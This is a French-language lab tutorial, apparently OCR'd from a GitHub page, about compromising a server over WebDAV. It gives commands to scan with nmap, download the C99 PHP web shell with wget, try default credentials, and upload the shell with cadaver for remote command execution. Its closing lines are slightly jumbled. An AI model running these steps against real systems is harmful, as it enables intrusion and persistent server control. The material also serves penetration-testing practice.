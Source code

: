 Vérifier si WebDAV est activé:
Scanner avec Nmap
```bash
nmap -p 80 --script=http-webdav-scan 10.6.0.7
```
Si WebDAV est actif, tu verras :
WebDAV is enabled

Télécharge le C99 PHP Shell avec wget :
```bash
wget https://raw.githubusercontent.com/phpwebshell/c99shell/refs/heads/main/c99.php -O c99.php
```
Cela va enregistrer le fichier c99.php localement.

Utilise Cadaver, un client WebDAV, pour envoyer le shell à la cible.
```bash
cadaver http://10.6.0.7/dav
```
Si le serveur demande un login, essaye :
admin:admin
msfadmin:msfadmin
webdav:webdav

Une fois connecté dans cadaver, tape :
```bash
put c99.php
```
Si l’upload réussit, vérifie avec :
```bash
ls
```

Dans ton navigateur, ouvre :

http://10.6.0.7/dav/c99.php

Cela affichera l’interface de C99 Shell, qui te permet
(Images/davweb.png):
Si WebDAV est actif, tu verras :
D’exécuter des commandes (system, exec, shell_exec)
D’accéder aux fichiers du serveur
D’uploader et télécharger des fichiers